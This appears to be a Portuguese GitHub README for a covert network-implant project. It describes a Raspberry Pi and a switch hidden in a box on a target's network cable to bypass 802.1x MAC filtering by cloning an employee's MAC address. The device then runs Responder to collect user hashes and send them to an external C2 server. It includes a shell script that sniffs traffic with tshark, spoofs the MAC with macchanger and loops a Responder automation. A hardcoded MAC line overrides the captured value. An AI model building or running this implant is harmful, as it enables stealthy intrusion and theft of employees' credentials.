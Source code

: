 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass da camada de proteção 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo utilizando ferramentas como RaspberryPI3 e um Switch, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque, ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações, em sequência é recomendável que a caixa seja escondida equanto conectada ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)
* Conversor LAN - USB
* Fita Dupla-Face + Caixa (20cm x 15cm +-)

# Etapas:

## Setup Raspberry
[_] kali ISO
[_] kali LCD Screen
[_] Responder as a Service: https://github.com/eep0x10/runAs.service/tree/main
[_] Scripts:


start_resp.sh
```
# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done
```


resp-onder.sh
cd /usr/share/responder
sudo python3 /usr/share/responder/automation.py

